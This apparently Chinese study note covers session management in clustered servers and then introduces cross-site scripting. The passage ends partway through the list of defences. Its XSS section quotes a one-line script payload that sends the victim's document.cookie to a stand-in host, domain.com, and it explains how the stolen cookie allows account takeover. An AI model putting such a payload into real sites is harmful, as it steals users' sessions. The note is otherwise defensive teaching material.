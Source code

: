 ### 二、集群下的Session管理

一个用户的Session只存储在一个服务器上面，那么当负载均衡器将请求转发到另一台服务器的时候，就没有本地的缓存session了，那么就需要用户重新登录等操作。

#### Sticky Session

配置负载均衡器，让同一个用户的请求都到同一个服务器，这样就可以把用户的Session存放在该服务器上。缺点是这个服务器宕机之后就会丢失这个服务器上面所有的session。

#### Session Replication

在服务器之间进行Session的同步操作，每个服务器都有所有用户的Session消息。

缺点就是占用内存过多，进行同步也占用网络带宽和服务器处理器时间。

#### Session Server

使用一个单独的服务器存储Session数据，可以使用传统的MySQL也可用Redis或者Memcached这种内存型数据库。

优点就是为了使得大型网站有伸缩性，集群中的应用服务器通常要保持无状态，那么应用服务器就不能进行Session的存储，如果用单独的服务器进行存储，那就可以保证无状态的服务器。

缺点就是需要进行Session的读取

## 攻击技术

### 一、跨站脚本攻击

#### 概念

跨站脚本攻击Cross-Site Scripting XSS，可以将代码注入到用户浏览的网页上，这种代码包括HTML和JavaScript

#### 攻击原理

例如有一个论坛网站，攻击者可以在上面发布以下内容：

```html
<script>location.href="//domain.com/?c=" + document.cookie</script>
```

之后该内容可能会被渲染成以下形式：

```html
<p><script>location.href="//domain.com/?c=" + document.cookie</script></p>
```

另一个用户浏览了含有这个内容的页面将会跳转到 domain.com 并携带了当前作用域的 Cookie。如果这个论坛网站通过 Cookie 管理用户登录状态，那么攻击者就可以通过这个 Cookie 登录被攻击者的账号了。

也就是通过这样将cookie带过去，然后就可用这个cookie进行目标网站的登录

#### 危害

+ 窃取用户cookie
+ 伪造虚假的输入表单骗取个人信息，让用户输入自己的信息
+ 显示伪造的文章或者图片

#### 防范手段

1. 设置Cookie为HttpOnly，可以防止JavaScript调用Cookie，这样就不能通过上面写的document.cookie获取到用户的Cookie信息
